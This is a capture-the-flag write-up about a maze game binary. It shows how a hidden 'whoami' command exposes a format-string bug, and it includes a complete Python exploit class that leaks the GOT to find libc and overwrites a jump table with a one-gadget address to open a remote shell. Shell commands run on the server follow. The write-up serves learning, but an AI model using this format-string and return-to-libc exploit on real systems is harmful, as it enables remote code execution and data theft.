

Can you beat the maze? This one is tricky - simply finding the exit, isn't enough!
This was the hardest challenge in the whole pack for me, by a long way. Apart from being technically difficult, it packs a number of false trails which can take a lot of time ... and I believe I tried most of them. I would not have been able to solve this without extensive hints by keep3r for the later part of the challenge. Many thanks!!!
We are given a remote server address where the maze can be played
nc whale.hacking-lab.com 7331and a local copy to play with and to pull apart. maze is a 64 bit elf executable which is run from a console. From the root menu
Choose:
[1] Change User
[2] Help
[3] Play
[4] Exit
>
the name can be changed and a basic set of instructions can be accessed:
To navigate through the maze use the following commands:
- go <direction> (north, south, west, east)
- search
- pick up
- open
- exit
Press enter to resume to the menue.
When the game is started, the immediate neighbourhood of a randomly
generated maze is shown, and one is left to ones own devices.
The disassembled code is fairly large. Two parts are of immediate interest: The main controls the root menu. Based on the choice made, the appropriate subroutine is taken via an offset table at 0x603160.
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
FILE *v3; // rdi@5
unsigned int v4; // [sp+Ch] [bp-14h]@2
void (__fastcall *v5)(FILE *); // [sp+10h] [bp-10h]@7
char v6; // [sp+1Fh] [bp-1h]@3
sub_400BDE();
printf("\x1B[H\x1B[J", a2);
fflush(stdout);
while ( 1 )
{
printf("\x1B[0;0H");
puts("Choose:");
puts("[1] Change User");
puts("[2] Help");
puts("[3] Play");
puts("[4] Exit");
printf("> ");
fflush(stdout);
v4 = -1;
__isoc99_scanf("%d", &v4);
do
v6 = fgetc(stdin);
while ( v6 != 10 && v6 != -1 );
fflush(stdin);
printf("\x1B[H\x1B[J");
printf("\x1B[8;0H");
v3 = stdout;
fflush(stdout);
if ( v4 <= 4 )
{
v5 = (void (__fastcall *)(FILE *))*(&off_603160 + v4);
v5(v3);
}
else
{
error();
}
v4 = 0;
}
}
The strange nonprintable characters in the printf statements are ANSI CSI codes used for terminal control sequences. The most frequent ones:
\x1B[H\x1B[J -> curor top left, clear screen
\x1B[nn;0H -> cursor to row nn, col 0
The offset table at off_603160 hides a first subtlety which comes in very
handy much later:
.data:0000000000603160 off_603160 dq offset error ; DATA XREF: main+120r
.data:0000000000603168 dq offset sub_400BDE ; Change User
.data:0000000000603170 dq offset sub_4010E3 ; Help
.data:0000000000603178 dq offset sub_401656 ; Play
.data:0000000000603180 dq offset sub_401E44 ; Exit
Namely: if an illegal choice ≥ 5 is made: the error() subroutine (which
just displays "Wrong Option!" before returning) is called directly. When
the illegal choice 0 is made, it is called via offset table.
The second region of interest is sub_401656(), which controls the different things that can happen while walking the maze.
The code is a big loop consisting of getting the next user instruction and going through a cascade of string comparisons to determine what is to be done. In the disassembly below, I added comments and changed some names to make things clearer.
int sub_401656()
{
int v1; // eax@34
size_t v2; // rax@51
signed int v3; // eax@60
char v4; // [sp+Fh] [bp-21h]@57
FILE *stream; // [sp+10h] [bp-20h]@53
char *s; // [sp+18h] [bp-18h]@53
char v7; // [sp+23h] [bp-Dh]@8
signed int v8; // [sp+24h] [bp-Ch]@48
signed int v9_searched; // [sp+28h] [bp-8h]@6
signed int i; // [sp+2Ch] [bp-4h]@1
sub_400CEB();
sub_40100D();
printf("\x1B[H\x1B[J");
fflush(stdout);
// find position of character
for ( i = 0; i <= 624; ++i )
{
if ( maze[i] == 2 )
{
player_x = i % 25;
player_y = i / 25;
break;
}
}
v9_searched = 0;
while ( 1 )
{
while ( 1 )
{
sub_40161E_show_position();
printf("\x1B[20;0H");
printf("Enter your command:\n> ");
fflush(stdout);
fgets(command, 16, stdin);
if ( !strchr(command, 10) )
{
do
v7 = fgetc(stdin);
while ( v7 != 10 && v7 != -1 );
}
fflush(stdin);
printf("\x1B[H\x1B[J");
puts("\x1B[16;0H");
// exit
if ( !sub_400B4D_compare_xor(command, "':+6HB") )
{
printf("\x1B[H\x1B[J");
return fflush(stdout);
}
// go north
if ( !sub_400B4D_compare_xor(command, "%-b,-06*HB") )
{
if ( maze[(25 * (player_y - 1) + player_x)] )
{
--player_y;
v9_searched = 0;
}
else
{
printf("There is a wall!");
}
goto LABEL_67;
}
// go south
if ( !sub_400B4D_compare_xor(command, "%-b1-76*HB") )
{
if ( maze[(25 * (player_y + 1) + player_x)] )
{
++player_y;
v9_searched = 0;
}
else
{
printf("There is a wall!");
}
goto LABEL_67;
}
// go west
if ( !sub_400B4D_compare_xor(command, "%-b5'16HB") )
{
if ( maze[(25 * player_y + player_x - 1)] )
{
--player_x;
v9_searched = 0;
}
else
{
printf("There is a wall!");
}
goto LABEL_67;
}
// go east
if ( !sub_400B4D_compare_xor(command, "%-b'#16HB") )
{
if ( maze[(25 * player_y + player_x + 1)] )
{
++player_x;
v9_searched = 0;
}
else
{
printf("There is a wall!");
}
goto LABEL_67;
}
// search
if ( !sub_400B4D_compare_xor(command, "1'#0!*HB") )
{
v9_searched = 1;
// found key
if ( maze[(25 * player_y + player_x)] == 3 )
{
printf("You found a key!");
}
// found chest
else if ( maze[(25 * player_y + player_x)] == 4 )
{
printf("You found a locked chest!");
}
// nothing interesting
else if ( rand() % 3 )
{
puts(off_6030E0);
}
// random event
else
{
v1 = rand();
puts((&off_6030E0)[8 * (v1 % 9)]);
}
goto LABEL_67;
}
// pick up
if ( sub_400B4D_compare_xor(command, "2+!)b72HB") )
break;
if ( v9_searched )
{
if ( maze[(signed __int64)(25 * player_y + player_x)] == 3 )
{
printf("You pick up the key: %s", s1);
}
else if ( maze[(signed __int64)(25 * player_y + player_x)] == 4 )
{
printf("This is to heavy! You can't pick up that.");
}
else
{
printf("There is nothing you want to pick up!");
}
}
else
{
printf("Maybe you should search first");
}
LABEL_67:
fflush(stdout);
}
// open
if ( !(unsigned int)sub_400B4D_compare_xor(command, "-2',HB") )
break;
// whoami (undocumented!!!)
if ( !(unsigned int)sub_400B4D_compare_xor(command, "5*-#/+HB") )
{
printf(&::s); // format string weakness!!!
goto LABEL_67;
}
error();
}
// open cont.
if ( !v9_searched )
{
printf("Maybe you should search first");
goto LABEL_67;
}
if ( maze[(signed __int64)(25 * player_y + player_x)] != 4 )
{
printf("There is nothing you can open!");
goto LABEL_67;
}
sub_40161E_show_position();
printf("\x1B[20;0H");
fflush(stdout);
v8 = 3;
while ( 1 )
{
v3 = v8--;
if ( !v3 )
{
printf("Next time get the right key!");
printf("For now get out of here! Quickly!");
fflush(stdin);
exit(0);
}
printf("The chest is locked. Please enter the key:\n> ");
fflush(stdout);
fgets(s2, 40, stdin);
if ( !strchr(s2, 10) )
{
while ( fgetc(stdin) != 10 )
;
}
fflush(stdin);
v2 = strlen(s1);
if ( !strncmp(s1, s2, v2) )
break;
puts("Sorry but that was the wrong key.");
}
printf("\x1B[H\x1B[J");
puts("Congratulation, you solved the maze. Here is your reward:");
s = (char *)malloc(0x400uLL);
stream = fopen("egg.txt", "r");
while ( fgets(s, 1024, stream) )
printf("%s", s);
fclose(stream);
printf("Press enter to return to the menue");
fflush(stdout);
do
v4 = fgetc(stdin);
while ( v4 != 10 && v4 != -1 );
fflush(stdin);
printf("\x1B[H\x1B[J");
return fflush(stdout);
The clever thing to do at this point would have been to wonder why on earth this string comparison employs the subroutine sub_400B4D_compare_xor(), which XORs with 0x42 before comparing strings, rather than a straight comparison. Could someone be hiding something?
But no, greed mandated that I look first at goodies such as
printf("Maybe you should search first");
printf("You found a key!");
printf("You pick up the key: %s", s1);
printf("You found a locked chest!");
printf("The chest is locked. Please enter the key:\n> ");
puts("Congratulation, you solved the maze. Here is your reward:");
stream = fopen("egg.txt", "r");
Clearly, one has to search everywhere, find the key, find the chest,
open the chest, and out comes the egg. So I went to the trouble of
writing an automatic mazewalker which interacted with the server version
to do the above. To make a long story short, out came the egg.txt file
*****
**** ****
*** ***
*** ***
*** ***
*** **** **** ***
** ** *** ** ** **
** ** ***. **
** .*** ** ** **
** ****** **** **
** **
** +-----------------+ **
* | +--+ * * +--+ | *
* | | | ** * | | | *
* | +--+ ** ** +--+ | *
* | * ** ** *** * | *
* | * * ** *** * * | *
** | +--+ * * [] * | **
* | | | *** ** ** | *
** | +--+ ** *** ** | **
** +-----------------+ **
** **
*** ***
*** ***
**** ****
***** *****
*********
which is very pretty, but entirely useless. Several days down the drain.
Luckily I was able to reuse the mazewalker for eggs 21 and 22.
What now? Once it became clear that the little stars in the text file are no hidden code, but simply pretty, a more detailled egg file had to be found. Because this is likely that this is stashed away on the server, the maze application has to be taken over. Stack overflow and the like. Entirely different challenge.
To do this, vulnerable user input and output statements have to be found. Unfortunately, all user input in the root menu, during name input and in the maze section appears to be protected against stack overflow. This leaves format string attacks. Searching through all the printf and similar statements in the code brings one hit: the segment
if ( !(unsigned int)sub_400B4D_compare_xor(command, "5*-#/+HB") )
{
printf(&::s); // format string weakness!!!
goto LABEL_67;
}
in the maze code sub_401656 above. This code is invoked when an
undocumented command whoami is entered ("5*-#/+HB" XORed with 0x42),
and it prints the username entered earlier.
The whole point of sub_400B4D_compare_xor() was to hide this command!
Now for the second part of the odyssey: I know how to use %p to read stack, %s to read memory and %n, &hn and %hhn to write to memory, but not much beyond that. All the tutorials I could find just cover the simple case where these format strings are used to manipulate the stack, for example by placing shellcode on it. However, the situation here is much more complex:
To help experimentation, I wrote a MazeSock class to automate server communication and format string generation. It is bazed on simple socket communication (there MUST be something better out there, but I haven't been able to find it)
import socket
import time
import re
import struct
class MazeSock(socket.socket):
TCP_PORT = 7331
BUFFER_SIZE = 4096
TCP_IP = 'whale.hacking-lab.com'
def __init__(self):
super().__init__(socket.AF_INET, socket.SOCK_STREAM)
self.rsp = 0
def m_send(self, msg):
self.send(msg.encode() + b'\n')
def m_recv(self, timeout=1):
total_data = []
begin = time.time()
while True:
if total_data and time.time() - begin > timeout:
break
if time.time() - begin > 2*timeout:
break
try:
data = self.recv(MazeSock.BUFFER_SIZE)
if data:
total_data.append(data)
begin = time.time()
else:
time.sleep(0.1)
except BlockingIOError:
time.sleep(0.1)
return b''.join(total_data)
def start_maze(self):
self.connect((MazeSock.TCP_IP, MazeSock.TCP_PORT))
self.recv(MazeSock.BUFFER_SIZE)
self.setblocking(False)
self.m_send("Kumaus")
self.m_recv()
print("Started")
def _set_name(self, name):
self.m_send('1')
self.m_send(name)
reply = self.m_recv()
name_stored = re.search(b'Welcome (.*)\.\n\n', reply).groups()[0].decode()
return name_stored
def _exploit_name(self):
self.m_send('3')
self.m_send("whoami")
self.m_send("exit")
reply = self.m_recv()
# print(reply)
exploit = re.findall(b'\x1b\[H\x1b\[J\x1b\[16;0H\n(.*)\x1b\[0;0H', reply)
return exploit
def exploit(self, name):
self._set_name(name)
expl = self._exploit_name()
# print(expl)
if len(expl) > 0:
return expl[0]
else:
return b''
def read_stack(self, pos):
# Note that the first 5 parameters are registers. Parameter 6 is at the current stack position.
expl = self.exploit("%{}$p".format(pos + 6))
return expl.decode()
def find_rsp(self):
# get RSP value (address of stack)
# Use fact that stack[0] points at stack[12]
stack_12 = int(self.read_stack(0), 16)
self.rsp = stack_12 - 12 * 0x08
print("Stack pointer:", hex(self.rsp))
def write_stack(self, rel_addr, value, size='byte'):
# Write value to stack at RSP + rel_addr
# Use stack[15] --> stack[41], which holds a stack address
# So, only need to change low-order word
# NOTE: value must be >0!!
addr = (self.rsp + rel_addr) % 0x10000
# write target address into *stack[15] (par 21) = stack[41]
self.exploit("%{}c%21$hn".format(addr))
# write value into *stack[41] (par 47)
if value == 0:
gap = ''
else:
gap = "%{}c".format(value)
if size == 'byte':
self.exploit(gap + "%47$hhn")
elif size == 'word':
self.exploit(gap + "%47$hn")
else:
self.exploit(gap + "%47$n")
def write_stack_address(self, stack_position, address):
rel_addr = stack_position * 8
self.write_stack(rel_addr, address & 0xFFFF, 'qword')
address //= 0x10000
while address > 0:
# increment address
rel_addr += 2
s.write_stack(rel_addr, address & 0xFFFF, 'word')
address //= 0x10000
def write_memory(self, stack_position, value, size='byte'):
# write value to memory location pointed to by stack at stack_position
# Note that this relative address has to be divisible by 8!!
parameter_number = 6 + stack_position
if value == 0:
gap = ''
else:
gap = "%{}c".format(value)
if size == 'byte':
self.exploit(gap + "c%{}$hhn".format(parameter_number))
elif size == 'word':
self.exploit(gap + "%{}$hn".format(parameter_number))
else:
self.exploit(gap + "%{}$n".format(parameter_number))
def write_memory_address(self, stack_position, memory, address):
# write 8 byte address to memory
# Use stack position to store target address in memory temporarily
self.write_stack_address(stack_position, memory)
self.write_memory(stack_position, address & 0xFFFF, 'qword')
address //= 0x10000
while address > 0:
# increment address
memory += 2
s.write_stack(stack_position * 8, memory & 0xff, 'byte')
s.write_memory(stack_position, address & 0xFFFF, 'word')
address //= 0x10000
def read_memory(self, stack_position, typ='char'):
# reads from memory location pointed to by stack at stack_position
# until 0x00 is encountered
byte_val = self.exploit("%{}$s".format(stack_position + 6))
if typ == 'bytes':
return byte_val
elif typ == 'char':
return byte_val.decode()
elif typ == 'qword':
if len(byte_val) < 8:
byte_val = byte_val + b'\x00'*(8 - len(byte_val))
return struct.unpack('Q', byte_val[:8])[0]
The main low-level workhorses are the private methods _set_name(name),
which calls option 1 in the root menu to change username to the exploit string, and
_exploit_name() which enters the maze, invokes
"whoami" in order to execute the exploit, and returns its results.
Usable methods are:
| exploit(name) | Send exploit string in name and return result |
| read_stack(pos) | Read 8 byte from stack position pos |
| find_rsp() | Find stack pointer RSP and write it to instance |
| write_stack(rel_addr, value, size) |
Write value to stack at address relative to stack pointer RSP size determines the number of bytes written: 'byte', 'word' or 'qword' |
| write_stack_address(stack_position, address) | Write an address to stack position efficiently |
| write_memory(stack_position, value, size) |
Write value to memory at address pointed to by stack_position size determines the number of bytes written: 'byte', 'word' or 'qword' |
| write_memory_address(stack_position, memory, address) |
Write an address to memory efficiently (pointer at stack_position) |
| read_memory(c, typ) | read from the memory address pointed to by stack_positiona |
0 --> 0x7fff0cebcaf0 --> 12
1 --> 0x400a60
2 --> 0x7fff0cebcbd0 --> 40
3 --> 0x7fb602543400
4 --> 0x7fb602890620
5 --> 0xa400000000
6 --> 0x7fff0cebcaf0 --> 12
7 --> 0x401fac
8 --> 0x401fc0
9 --> 0x300400a60
10 --> 0x401656
11 --> 0xa00000000000000
12 --> 0x401fc0 0x7fff0cebcaf0
13 --> 0x7fb6024eb830
14 --> (nil)
15 --> 0x7fff0cebcbd8 --> 41
16 --> 0x100000000
17 --> 0x401e7a
18 --> (nil)
19 --> 0x4d793b3b191dbc10
20 --> 0x400a60
21 --> 0x7fff0cebcbd0
22 --> (nil)
23 --> (nil)
24 --> 0xb287226cb09dbc10
25 --> 0xb2153f26494dbc10
26 --> (nil)
27 --> (nil)
28 --> (nil)
29 --> 0x1
30 --> 0x401e7a
31 --> 0x402030
32 --> (nil)
33 --> (nil)
34 --> 0x400a60
35 --> 0x7fff0cebcbd0
36 --> (nil)
37 --> 0x400a89
38 --> 0x7fff0cebcbc8 -> 45
39 --> 0x1c 0x7fff0cebcbc8
40 --> 0x1 0x7fff0cebcbd0
41 --> 0x7fff0cebcf3b 0x7fff0cebcbd8
42 --> (nil)
43 --> 0x7fff0cebcf40
The keyword here is return to libc, an advanced form of attack (one of the saving hints). Essentially, one avoids having to write executable shellcode by locating pieces in libc, the c library linked into the executable. If we can find a so-called one-gadget which opens a shell in libc (they do exist!), and if we can pass control there, we are done.
The first task is to determine base address and version of the libc used on the server. There are very many different versions around, and the version used depends on the machine where the code runs. The local version of maze is no help here. Basically, we need to read the Global Offset Table (GOT) on the remote machine, bacause that holds the jump addresses for all the libc functions used in the code. Luckily, the location of this table is fixed by the code, it is 0x603018 in both local and remote code.
With the addresses of some key libc functions, one can use a libc database search service to determine version and starting address of the libc used. To read the remote GOT I used:
with MazeSock() as s:
s.start_maze()
s.find_rsp()
# Step 1:
# Determine address of some libc functions by checking GOT entry 603018 - 6030a8
stack_got = 20 * 8
print("GOT entry:", hex(s.rsp + stack_got))
s.write_stack(stack_got, 0, 'qword')
s.write_stack(stack_got + 1, 0x30, 'byte')
s.write_stack(stack_got + 2, 0x60, 'byte')
for got_lo in range(0x18, 0xb0, 0x08):
s.write_stack(stack_got, got_lo, 'byte')
addr = s.read_stack(20)
addr_libc_fun = s.read_memory(20, 'qword')
print(addr, "-->", hex(addr_libc_fun))
Remote GOT libc address libc function offset from start
0x603018 --> 0x400926
0x603020 --> 0x7f755cedc690 puts 6f690
0x603028 --> 0x400946
0x603030 --> 0x7f755cef8720 strlen 8b720
0x603038 --> 0x7f755cef6ab0 strchr 89a80
0x603040 --> 0x0
0x603048 --> 0x7f755cefc240 memset 8f1b0
0x603050 --> 0x7f755cee3030 fgetc 76030
0x603058 --> 0x7f755ce8d740 __libc_start_main 20740
0x603060 --> 0x7f755cea78d0 srand 3a8d0
0x603068 --> 0x7f755cedaad0 fgets 6dad0
0x603070 --> 0x7ffd729fce10 time bc380
0x603078 --> 0x4009e6
0x603080 --> 0x7f755ceda7a0 fflush 6d7a0
0x603088 --> 0x4a5b1b485b1b
0x603090 --> 0x7f755ced84d0 __isoc99_scanf 6b4d0
0x603098 --> 0x7f755cec2940 sprintf 55940
0x6030a0 --> 0x4a5b1b485b1b
0x6030a8 --> 0x7f755cea7f60 rand 3af60
Using the libc database search, a good match was found to libc6_2.23-0ubuntu11_amd64.
If the stack can be controlled, one could now pick two offsets provided by the search tool, namely the system() call and the address of the string "/bin/sh", which can be placed on the stack as calling parameter. This is apaprently the "usual procedure". Of course it does not work here, because the stack gets modified between the exploit steps. We need a call without parameters which gives shell, a one-gadget.
To find one, I disassembled the downloaded libc6_2.23-0ubuntu11_amd64.so and searched for occurences of "/bin/sh". Several useful ones turned up, for example
f1147 (offset 0xd0a07)
.text:00000000000F1147 mov rax, cs:environ_ptr_0
.text:00000000000F114E lea rsi, [rsp+1D8h+var_168]
.text:00000000000F1153 lea rdi, aBinSh ; "/bin/sh"
.text:00000000000F115A mov rdx, [rax]
.text:00000000000F115D call execve
.text:00000000000F1162 call abort
at offset 0xd0a07 from __libc_start_main. In order to pass control there, a peculiarity discovered earlier turned out useful: The offset table off_603160 used by main() is in the writable part of memory and can be changed. At its initial position is a pointer to error(), triggered if '0' is entered in the root menu.
The necessary steps:
with MazeSock() as s:
s.start_maze()
s.find_rsp()
# Step 2:
# get current address of __libc_start_main from GOT at 0x603058
# using stack position 20
stack_got = 20 * 8
print("GOT entry:", hex(s.rsp + stack_got))
s.write_stack(stack_got, 0x58, 'qword')
s.write_stack(stack_got + 1, 0x30, 'byte')
s.write_stack(stack_got + 2, 0x60, 'byte')
addr = s.read_stack(20)
libc_start_main = s.read_memory(20, 'qword')
print("__libc_start_main:", addr, "-->", hex(libc_start_main))
# write one_gadget address into jump table at 0x603160 (error() function)
one_gadget = libc_start_main + 0xd0a07
s.write_memory_address(stack_got // 8, 0x603160, one_gadget)
# check that write was successful
s.write_stack(stack_got, 0x60, 'byte')
check = s.read_memory(stack_got // 8, 'qword')
print("New jump address at 0x603160 for exit():", hex(check))
# Step 3:
# Trigger modified call to execute shell
s.m_send('0')
print(s.m_recv())
print("Shell!!!")
s.m_send('whoami')
print(s.m_recv(timeout=5).decode())
s.m_send('ls -al home/maze')
print(s.m_recv(timeout=5).decode())
s.m_send('base64 home/maze/egg.png')
print(s.m_recv(timeout=5).decode())
A bit of searching around shows a file "egg.png" in home/maze on the sever. After listing it as base64 and decoding it again locally, I finally got myself an egg!